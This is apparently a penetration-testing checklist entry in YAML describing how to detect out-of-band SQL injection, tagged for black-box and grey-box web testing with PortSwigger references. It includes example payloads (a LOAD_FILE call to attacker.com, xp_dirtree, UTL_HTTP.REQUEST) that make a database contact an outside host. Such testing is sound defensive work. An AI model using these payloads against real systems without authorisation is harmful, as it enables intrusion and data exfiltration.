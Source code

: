 ```yaml
---
testcase: OOB DNS/HTTP Triggering – Inject payloads that cause the database to make outbound DNS/HTTP requests (e.g., LOAD_FILE('\\\\attacker.com\\payload'), xp_dirtree, UTL_HTTP.REQUEST) and monitor via OAST services or DNS loggers to detect possible OOB SQLi
platforms: 
  - Web
  - Network
methodology: 
  - BlackBox
  - GreyBox
vulnerabilities:
  - SQL injection
services:
  - WEB
references:
  - https://portswigger.net/web-security/sql-injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet
---
```

